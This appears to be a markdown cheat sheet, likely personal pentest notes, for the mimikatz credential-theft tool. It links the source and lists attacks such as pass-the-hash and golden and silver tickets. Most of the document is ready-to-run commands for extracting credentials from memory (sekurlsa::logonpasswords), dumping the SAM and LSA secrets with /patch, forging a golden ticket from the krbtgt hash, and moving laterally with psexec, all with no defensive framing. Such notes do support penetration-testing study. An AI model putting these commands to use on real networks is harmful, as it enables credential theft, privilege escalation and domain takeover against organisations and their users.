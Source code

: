 https://github.com/gentilkiwi/mimikatz

# Overview

  - Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
  - Dumps credentials stored in memory.
  - Just a few attacks: Credential Dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Golden Ticket, Silver Ticket


# commands

module to bypass memory protection
```
privilege::debug
```

```
sekurlsa::logonpasswords
```
*Sam dumping*
```
lsadump::sam (to dump sam file)
lsadump::sam /patch
```
*LSA dumping*
```
lsadump::lsa /patch dumping lsa
```

*Golden Ticket*
```
lsadump::lsa /inject /name:krbtgt (filter wanted user name)
Copy SID of the domain and kerberos NTLM hash
kerberos:golden /User:Administrator or any name /domain:DOMAIN /sid:SID /krbtgt:NTLM HASH /id:500 /ptt (pass the ticket)

misc::cmd (open command line with session we created)

command \\COMPUTER\SHARE or file
e.g.
psexec \\ESabah cmd.exe
 
```